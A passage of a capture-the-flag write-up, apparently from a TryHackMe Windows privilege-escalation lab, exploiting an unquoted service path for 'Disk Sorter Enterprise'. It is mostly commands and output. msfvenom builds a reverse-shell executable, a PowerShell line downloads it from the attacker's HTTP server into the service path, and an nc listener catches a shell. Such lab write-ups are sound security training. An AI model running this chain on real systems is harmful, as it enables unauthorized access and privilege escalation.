 Prepare rev shell

```bash
┌──(kali㉿kali)-[/tmp/www]
└─$ msfvenom -p windows/shell_reverse_tcp LHOST=10.11.19.145 LPORT=1111 -f exe-service -o shell.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe-service file: 48640 bytes
Saved as: shell.exe

┌──(kali㉿kali)-[/tmp/www]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

```bash
┌──(kali㉿kali)-[~/thm]
└─$ rlwrap -r -f . nc -nlvp 1111
```

Can use `C:\MyPrograms\Disk.exe`

```bash
PS C:\> (new-object net.webclient).DownloadFile("http://10.11.19.145/shell.exe", "C:\MyPrograms\Disk.exe")
PS C:\> sc.exe stop "Disk Sorter Enterprise"

SERVICE_NAME: Disk Sorter Enterprise
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 1  STOPPED
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0
PS C:\> sc.exe start "Disk Sorter Enterprise"

SERVICE_NAME: Disk Sorter Enterprise
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 4  RUNNING
                                (STOPPABLE, NOT_PAUSABLE, ACCEPTS_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0
        PID                : 3308
        FLAGS              :
PS C:\>
```

Get flag

```bash
┌──(kali㉿kali)-[~/thm]
└─$ rlwrap -r -f . nc -nlvp 1111
listening on [any] 1111 ...
connect to [10.11.19.145] from (UNKNOWN) [10.10.93.80] 50112
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
wprivesc1\svcusr2

C:\Windows\system32>type %userprofile%\Desktop\flag.txt
type %userprofile%\Desktop\flag.txt
THM{QUOTES_EVERYWHERE}
```